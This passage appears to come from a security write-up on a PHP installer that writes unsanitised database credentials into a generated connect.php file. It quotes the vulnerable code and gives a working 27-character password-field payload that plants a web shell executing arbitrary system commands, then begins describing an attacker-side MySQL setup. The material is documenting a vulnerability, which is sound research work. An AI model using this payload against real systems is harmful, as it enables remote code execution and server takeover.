 Following this, a number of checks are carried out, including a check to see if the database connection was successful, on lines 35-37:

```php
if($database->connect_error) {
	$errors[] = 'We couldn\'t connect to the database !';
}
```

So far, the lack of input sanitisation is fine for the operations carried out. However, if all the checks pass, a PHP file is written to disk using the unsanitised variables, on lines 51-64:

```php
/* Define the connect.php content */
$connect_content = <<<PHP
<?php
// Connection parameters
\$DatabaseServer = "$database_server";
\$DatabaseUser   = "$database_user";
\$DatabasePass   = "$database_password";
\$DatabaseName   = "$database_name";
// Connecting to the database
\$database = new mysqli(\$DatabaseServer, \$DatabaseUser, \$DatabasePass, \$DatabaseName);
?>
PHP;
```

Due to the lack of input sanitisation, it is possible to write any arbitrary value to this file.

### Exploitation
#### Creating The Payload
As the script must first successfully establish a connection to a MySQL server before it will create the `connect.php` file, the exploitability becomes slightly more difficult, in that a remote MySQL server must be used to help deliver the payload.

Due to the need for the connection to be established, the host, username and database name fields are not usable; as all characters used within a payload would be blacklisted by MySQL. The password field, however, has no blacklisted characters, but does have the added restriction of being a maximum of 32 characters.

With a payload space of 32 characters, and the knowledge that the content of `$database_password` is injected between two double quotation marks, a payload can be created which:

* Closes the quotation marks
* Closes the existing PHP block (to prevent any subsequent errors blocking shell execution)
* Inject a new PHP block containing the shell execution
* Open another PHP block, and comment out the remaining content of the line

The final payload weighs in at 27 characters and will take any value passed to the `1` parameter in a `GET` request, and execute it as a system command:

```
";?><?=`$_GET[1]`?><?php //
```

#### Setting Up MySQL
With a valid payload generated, a MySQL server must be setup on the attacking machine. After installing the MySQL server package(s), the configuration must be updated to bind to `0.0.0.0` in order to allow remote connections.
